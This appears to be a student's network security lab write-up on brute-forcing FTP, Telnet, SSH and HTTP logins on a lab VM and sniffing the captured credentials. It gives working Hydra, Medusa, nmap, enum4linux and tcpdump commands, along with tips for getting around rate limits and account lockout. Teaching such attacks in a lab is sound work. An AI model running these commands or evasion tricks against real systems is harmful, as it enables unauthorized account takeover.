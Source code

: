 
# 🛡️ Lab 1: Cryptographic Attacks - Brute Force and Traffic Analysis on Network Protocols

**Author**: Raja Muhammad Haiqal Shah  
**Date**: April 10, 2025  
**Course**: Network Security  
**Lab Duration**: 3 hours  
**Total Marks**: 15  

---

## 🔍 A. Objective

To exploit the vulnerabilities of common network protocols—**FTP**, **TELNET**, **SSH**, and **HTTP**—by:

- Performing brute force attacks using tools like **Hydra**, **Medusa**, **NetExec**, and **Burp Suite**
- Using valid credentials to capture and analyze network traffic
- Identifying secure vs insecure protocols
- Proposing mitigation strategies

---

## ⚙️ B. Lab Tasks

### 🔎 1. Enumerate the Vulnerable VM to Discover Usernames

**Tool used**: `enum4linux`, `nmap`, `NetExec`  
**Command examples**:

```bash
enum4linux -a <target-ip>
```
(![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enumcommand.jpg))
(![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enum.jpg))

```bash
nmap -sV -p21,23,22,80 <target-ip>
```
![nmap scan port to attack](nmapscan.jpg)

**Discovered usernames**:
- admin
- user
- test
- ftpuser
![edit text](vimusers.jpg)

---

### 🔓 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, SSH  
**Tools used**: `Hydra`

**FTP**

```bash
hydra -L users.txt -P /usr/share/wordlists/simplepass.txt -t 4 ftp:ftp://<target-ip> -o resultftp.txt
```
![ftp result and command](ftpcommandandresults.jpg)

**TELNET**

```bash
hydra -L users.txt -P passwords.txt telnet://<target-ip>
```


**SSH**

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```

![ssh command](sshcommand.jpg)
![ssh result](sshresults.jpg)
---

#### 2.2 HTTP (Web Login Brute Force)  
**Tool used**: `Burp Suite (Intruder)`

- Captured POST request with login credentials.
- Configured payload positions for username and password.
- Imported wordlists (e.g., `rockyou.txt`).

📸 Screenshot: _Burp Intruder config and successful login response (e.g., 302 redirect or "Welcome" text)._

---

### 🧪 3. Sniff Network Traffic

**Tool used**: `Wireshark` / `tcpdump`  
**Steps**:
1. Log in to FTP, Telnet, SSH, and HTTP using recovered credentials.
2. Capture traffic during login and interaction.

```bash
tcpdump -i eth0 -w capture.pcap
```

**🧩 Analysis**:
| Protocol | Observation                        |
|----------|-------------------------------------|
| FTP      | Plaintext username/password ✔️     |
| TELNET   | Plaintext data ✔️                  |
| SSH      | Encrypted traffic ✅                |
| HTTP     | Login credentials in POST ✔️       |


📸 Screenshot: _Wireshark showing FTP/Telnet plaintext credentials and comparison with SSH._

---

### ⚠️ 4. Analyze Problems Encountered

| Protocol | Problem                              | Solution                              |
|----------|---------------------------------------|---------------------------------------|
| FTP      | Login delay after multiple failures  | Used `-t 4` to limit threads          |
| TELNET   | Session timeout                      | Increased timeout using `-T 10`       |
| HTTP     | Rate limit after 10 attempts         | Added delay in Burp Intruder payloads |
| SSH      | Account lock after 5 attempts        | Switched to Medusa                    |

---

### 🔐 5. Propose Mitigation Strategies

| Protocol | Problem                 | Mitigation                                    |
|----------|--------------------------|-----------------------------------------------|
| FTP      | Plaintext login          | Use **SFTP** instead of FTP                   |
| TELNET   | No encryption            | Replace with **SSH**                          |
| SSH      | Brute forceable          | Use **key-based authentication**, `fail2ban` |
| HTTP     | Passwords exposed in POST| Implement **HTTPS**, Captcha, lockout        |

---

### 📝 6. Walkthrough Summary

**Tools Used**:  
Hydra, Medusa, Burp Suite, Wireshark, NetExec, nmap, tcpdump

**Key Commands**:

```bash
hydra -l admin -P rockyou.txt ftp://<ip>
```

```bash
medusa -h <ip> -u admin -P rockyou.txt -M telnet
```

📸 Screenshots Included:
- Enumeration results  
- Brute force success (each protocol)  
- Wireshark traffic  
- BurpSuite config & success  
- Mitigation diagram _(optional)_

---

## 📁 C. Deliverables

- ✅ Walkthrough Markdown File  
- ✅ Screenshots (PNG/JPG)  
- ✅ GitHub Repo Link: _[Insert Your Repo Link Here]_

---

## 🎤 D. Demo and Debrief Checklist

- ✅ Introduce tools & setup  
- ✅ Show enumeration → brute force → successful login  
- ✅ Open Wireshark and show sniffed credentials (FTP/Telnet)  
- ✅ Discuss protocol weaknesses  
- ✅ Propose improvements  
